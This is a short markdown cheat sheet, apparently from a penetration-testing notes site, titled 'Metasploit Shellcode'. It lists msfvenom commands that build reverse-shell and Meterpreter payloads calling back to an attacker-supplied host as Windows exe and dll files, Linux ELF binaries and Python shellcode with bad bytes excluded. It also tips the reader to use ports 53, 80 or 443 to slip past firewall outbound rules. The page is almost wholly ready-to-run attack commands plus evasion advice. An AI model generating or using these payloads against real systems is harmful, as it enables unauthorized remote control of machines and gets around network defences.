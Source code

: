 ```yaml
---
title: "Metasploit Shellcode"
date: 2024-6-26
tags: ["Code Execution", "Metasploit", "Firewall", "Payload", "RCE", "Dll Hijacking", "Shellcode", "Reverse Shell", "Msfconsole", "Msfvenom"]
---
```


### Generate Shellcode

<small>*Note: stageless payload can catch with nc directly*</small>

#### Windows x64

{{< tab set1 tab1 active >}}Staged exe{{< /tab >}}
{{< tab set1 tab2 >}}Stageless exe{{< /tab >}}
{{< tab set1 tab3 >}}Staged dll{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 -f exe --platform windows LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> > rev.exe
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
msfvenom -p windows/x64/shell_reverse_tcp -a x64 -f exe --platform windows LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> > rev.exe
```

{{< /tabcontent >}}
{{< tabcontent set1 tab3 >}}

```console
msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 -f dll --platform windows LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> > rev.dll
```

{{< /tabcontent >}}

#### Windows x86

{{< tab set2 tab1 active >}}Staged exe{{< /tab >}}
{{< tab set2 tab2 >}}Stageless exe{{< /tab >}}
{{< tabcontent set2 tab1 >}}

```console
msfvenom -p windows/meterpreter/reverse_tcp -a x86 -f exe --platform windows LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> > rev.exe
```

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

```console
msfvenom -p windows/shell_reverse_tcp -a x86 -f exe --platform windows LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> EXITFUNC=thread > rev.exe
```

{{< /tabcontent >}}

<small>*Note: These will be flagged by AV*</small>
<br>
<small>*Note: Try to use common ports such as 53, 80, 443 to bypass firewall outbound rules*</small>

#### Linux amd64

{{< tab set3 tab1 active >}}Stageless elf{{< /tab >}}
{{< tabcontent set3 tab1 >}}

```console
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> -f elf > rev.elf
```

{{< /tabcontent >}}

#### Others

{{< tab set4 tab1 active >}}Staged python{{< /tab >}}
{{< tabcontent set4 tab1 >}}

```console
# Generate shellcode in python format and avoid specific bytes
msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 -f python -v shellcode --platform windows -b'\x00\x0a\0d' LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT>
```

{{< /tabcontent >}}

